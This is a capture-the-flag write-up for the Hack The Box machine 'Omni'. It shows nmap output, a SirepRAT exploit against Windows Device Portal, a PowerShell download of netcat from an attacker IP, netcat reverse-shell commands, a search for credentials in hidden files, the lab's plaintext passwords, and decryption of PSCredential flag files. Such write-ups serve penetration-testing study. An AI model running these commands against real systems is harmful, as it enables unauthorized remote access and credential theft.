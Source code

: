 ﻿# Omni

![](images/omini.png)

nmap
-----
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 18:48 GMT
Nmap scan report for 10.10.10.204
Host is up (0.044s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=1/7%Time=5FF757C1%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   45.98 ms 10.10.14.1
2   46.11 ms 10.10.10.204
```


website on 8080
-----

![Image](images/img1.png?raw=true)

Exploit for windows device portal  
https://github.com/SafeBreach-Labs/SirepRAT

nc64.exe  
https://eternallybored.org/misc/netcat/

Upload nc64.exe
```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd 'C:\Windows\System32\cmd.exe' --args '/c powershell Invoke-WebRequest -Uri "http://10.10.14.17:8000/nc64.exe" -OutFile "C:\Windows\System32\nc.exe"'
```
Listen with NetCat
```
nc -nlvp 4444
```
Reverse shell
```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd 'C:\Windows\System32\cmd.exe' --args '/c nc.exe 10.10.14.17 4444 -e cmd.exe'
```

whoami -> $env:UserName
```
PS C:\Data\Users\app> $env:UserName
$env:UserName
omni$
```

We need the app and administrator users
```

d-----         7/4/2020   9:48 PM                administrator                 
d-----         7/4/2020   9:53 PM                app                           
d-----         7/3/2020  11:22 PM                DefaultAccount                
d-----         7/3/2020  11:22 PM                DevToolsUser                  
d-r---         1/7/2021   7:46 AM                Public                        
d-----         7/4/2020  10:29 PM                System  
```

List all Drives
```
gdr -PSProvider 'FileSystem'

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
C                   1.04          0.54 FileSystem    C:\                       
D                                      FileSystem    D:\                       
U                   0.51          4.37 FileSystem    U:\  
```

Looking for credentials in hidden files
```
PS C:\Program Files> Get-ChildItem -Hidden -Recurse -File
Get-ChildItem -Hidden -Recurse -File


	Directory: C:\Program Files\WindowsPowerShell\Modules\PackageManagement


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a-h--        8/21/2020  12:56 PM            247 r.bat
```

r.bat
```
PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> cat r.bat
cat r.bat
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

We can log in with the following credentials.  
app:mesh5143 app user

Processes -> Run command
```
C:\Windows\System32\nc.exe 10.10.14.17 4445 -e cmd.exe
```

![Image](images/img2.png?raw=true)


```
PS C:\windows\system32> $env:UserName
$env:UserName
app
```

user.txt is a PSCredential file. We can load it and read the flag with the following command.

```
$credential = Import-CliXml -Path C:\Data\Users\app\user.txt
$credential.GetNetworkCredential().Password
```

We can do the same with the root user using the credential obtained for root (administrator:_1nt3rn37ofTh1nGz)